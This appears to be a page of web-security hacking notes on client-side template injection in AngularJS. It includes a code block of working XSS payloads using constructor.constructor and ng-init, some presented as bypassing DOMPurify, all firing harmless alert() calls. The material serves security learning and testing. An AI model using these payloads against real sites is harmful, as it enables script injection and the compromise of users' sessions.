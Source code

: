 ### Client-Side Template Injection

Templating frameworks help fill out HTML with user data and try to make interaction easier. While this often helps with auto-escaping special characters, it can hurt in some other ways when the templating language itself can be injected without HTML tags, or using normally safe HTML that isn't sanitized.

#### [AngularJS](https://docs.angularjs.org/guide/templates)

AngularJS is a common web framework for the frontend. It allows easy interactivity by adding special attributes and syntax that it recognizes and executes. This also exposes some new ways for HTML/Text injections to execute arbitrary JavaScript if regular ways are blocked. One caveat is that all these injections need to happen inside an element with an `ng-app` attribute to enable this feature.&#x20;

When this is enabled, however, many possibilities open up. One of the most interesting is template injection using `{{` characters inside a text string, no HTML tags are needed here! This is a rather well-known technique though, so it may be blocked. In cases of HTML injection with strong filters, you may be able to add custom attributes bypassing filters like [DOMPurify](https://github.com/cure53/DOMPurify). See [this presentation by Masato Kinugawa](https://speakerdeck.com/masatokinugawa/how-i-hacked-microsoft-teams-and-got-150000-dollars-in-pwn2own?slide=33) for some AngularJS tricks that managed to bypass Teams' filters.&#x20;

Here are a few examples of how it can be abused on the latest version. All alerts fire on load:

<pre class="language-html"><code class="lang-html">&#x3C;script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.3/angular.min.js">&#x3C;/script>

&#x3C;body ng-app>
<strong>  &#x3C;!-- Text injection -->
</strong>  {{constructor.constructor('alert(1)')()}}
<strong>  &#x3C;!-- Attribute injection -->
</strong>  &#x3C;ANY ng-init="constructor.constructor('alert(2)')()">&#x3C;/ANY>
<strong>  &#x3C;!-- Filter bypass (even DOMPurify!) -->
</strong>  &#x3C;ANY data-ng-init="constructor.constructor('alert(3)')()">&#x3C;/ANY>
  &#x3C;ANY class="ng-init:constructor.constructor('alert(4)')()">&#x3C;/ANY>
  &#x3C;ANY class="AAA;ng-init:constructor.constructor('alert(5)')()">&#x3C;/ANY>
  &#x3C;ANY class="AAA!ng-init:constructor.constructor('alert(6)')()">&#x3C;/ANY>
  &#x3C;ANY class="AAA♩♬♪ng-init:constructor.constructor('alert(7)')()">&#x3C;/ANY>
<strong>  &#x3C;!-- Dynamic content insertion also vulnerable (only during load) -->
</strong>  &#x3C;script>
    document.body.innerHTML += `&#x3C;ANY ng-init="constructor.constructor('alert(8)')()">&#x3C;/ANY>`;
  &#x3C;/script>
&#x3C;/body>
<strong>&#x3C;!-- Everything also works under `data-ng-app`, fully bypassing DOMPurify! -->
</strong>&#x3C;div data-ng-app>
  ...
  &#x3C;b data-ng-init="constructor.constructor('alert(9)')()">&#x3C;/b>
&#x3C;/div>
</code></pre>

In some older versions of AngularJS, there was a sandbox preventing some of these arbitrary code executions. Every version has been bypassed, however, leading to how it is now without any sandbox. See the following page for a history of these older sandboxes:
